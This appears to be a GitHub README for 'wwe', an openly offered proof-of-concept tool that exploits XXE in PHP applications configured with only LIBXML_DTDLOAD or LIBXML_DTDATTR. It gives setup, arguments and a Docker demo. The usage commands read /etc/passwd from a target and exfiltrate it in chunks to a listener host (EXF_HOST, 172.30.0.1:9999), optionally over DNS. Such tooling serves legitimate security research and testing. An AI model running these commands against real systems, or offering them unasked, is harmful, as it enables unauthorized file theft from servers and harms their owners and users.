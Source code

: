 PoC tool (based on [wrapwrap](https://github.com/ambionics/wrapwrap) & [lightyear](https://github.com/ambionics/lightyear) ) to demonstrate XXE in PHP with only `LIBXML_DTDLOAD` or `LIBXML_DTDATTR` flag set

## Usage

### Setup
```sh
git clone https://github.com/bytehope/wwe.git
cd wwe
pip install -r requirements.txt
```

### Tool arguments

List of allowed tool arguments
```sh
usage: wwe.py [-h] -f FILENAME [-l LENGTH] [--dns-exf | --no-dns-exf] [--decode | --no-decode] exfiltrate_url {AUTO,MANUAL} ...

positional arguments:
  exfiltrate_url
  {AUTO,MANUAL}

options:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        the name of the file whose content we want to get
  -l LENGTH, --length LENGTH
                        each request will retrieve l-bytes in b64. Increase this param will be huge increase payload size
  --dns-exf, --no-dns-exf
                        enable/disable exfiltration over DNS (default: False)
  --decode, --no-decode
                        Inline decode to b64 in output
```

### Demo
To set up a test environment, run the docker compose.
```sh
docker compose -f ./demo/compose.yaml up -d
```

Then execute the script
```sh
python3 wwe.py -f /etc/passwd --decode http://172.30.0.1:9999 AUTO ./demo/demo-request.txt -u http://localhost:1337/
```

Stop Docker and remove the network
```sh
docker compose -f ./demo/compose.yaml down -v
```

### Modes
#### Auto
It listens to the port itself and sends data to a vulnerable route using a txt file,
example: 
```sh
python3 wwe.py -f /etc/passwd --decode http://EXF_HOST:LISTEN_PORT AUTO REQUEST_IN_FILE.txt -u http://TARGET/
```

#### Manual
Generates a payload on each chunk of data, waiting for input to generate the next payload:
```sh
python3 wwe.py -f /etc/passwd --decode http://EXF_HOST_WITH_PORT MANUAL
```

### TODO:
- output data into file
- enable/disable live mode
- improved live view for other modes
- full-auto DNS mode
- 

